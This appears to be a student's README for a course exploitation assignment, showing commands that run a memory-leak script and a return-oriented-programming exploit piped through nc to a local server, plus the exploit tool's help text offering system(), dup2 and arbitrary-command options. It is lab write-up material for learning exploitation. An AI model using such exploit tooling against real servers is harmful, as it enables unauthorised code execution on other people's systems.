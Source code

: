 Example:

```
python2 memory_disc.py -p 1111
00007fffac708c00
00007f7d9c3dbbc8

python2 ropexploit.py -s -stack 0x00007fffac708c00 -libc 0x00007f7d9c3dbbc8| nc localhost 1111    

// use -c to specify command too 
```
# Extra work

## Extending the Exploit
I did a lot of improvements on the exploit and add several methods to it.

```
spatialisotope@prset04:~/prset04/exploit$ python ropexploit.py --help
usage: ropexploit.py [-h] [-s] [-stack STACK] [-libc LIBC]
                     [-memory-port MEMORY_PORT] [-p] [-c COMMAND]
                     [-secret SECRET]

optional arguments:
  -h, --help            show this help message and exit
  -s, --only-system     Execute only system(), without dup2
  -stack STACK          Set leaked address realative to stack
  -libc LIBC            Spet leaked address relative to libc
  -memory-port MEMORY_PORT
                        Set port number, it will Exploit memory vulnerability
                        automatically
  -p, --print-address   Print addresses, and create solution.json
  -c COMMAND, --command COMMAND
                        Specific command to penetrate vulnerable server
  -secret SECRET        set secret file localtion, to obtain secret value for
                        printing solution
spatialisotope@prset04:~/prset04/exploit$ 
```

I tried, setuid, dup2 just for curiosity.. 

Another way I was thinking is to make a reconnect back to some code listening, but I was able to do this in an experiments but did not want to do it on this program, just in case not miss something out because I did got crash the system while doing other experiments.

## Other Experiments

I have done several client /server tests and client based program that simulate the actual ROP attack by simply using the inline ASM and provide it with libc system addresses + buffer addresses, so  I safe time not from trying directly on prset04. 

So I was testing things like that
